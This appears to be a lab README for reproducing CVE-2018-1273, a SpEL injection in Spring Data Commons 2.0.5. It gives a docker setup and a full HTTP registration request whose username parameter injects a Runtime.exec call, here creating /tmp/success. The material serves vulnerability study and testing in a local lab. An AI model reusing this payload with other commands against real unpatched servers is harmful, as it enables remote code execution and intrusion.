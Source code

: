 # Spring Data Commons Remote Code Execution (CVE-2018-1273)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Data is an open-source framework designed to simplify database access and support cloud services. Spring Data Commons serves as the foundational framework shared by all sub-projects under Spring Data. 

In versions 2.0.5 and earlier of Spring Data Commons, there exists a SpEL (Spring Expression Language) injection vulnerability that allows attackers to inject malicious SpEL expressions to execute arbitrary commands.

Reference links:

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## Environment Setup

Execute the following command to start a Web application based on Spring Data Commons 2.0.5:

```
docker compose up -d
```

After a short wait and once the server starts, visit `http://your-ip:8080/users` to see a user registration page.

## Vulnerability Reproduce

Referring to the payload from the reference links, intercept the registration request and modify it to the following:

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

Execute `docker compose exec spring bash` to enter the container, and you can see that `/tmp/success` has been successfully created, indicating that the command execution was successful:

![](1.png)
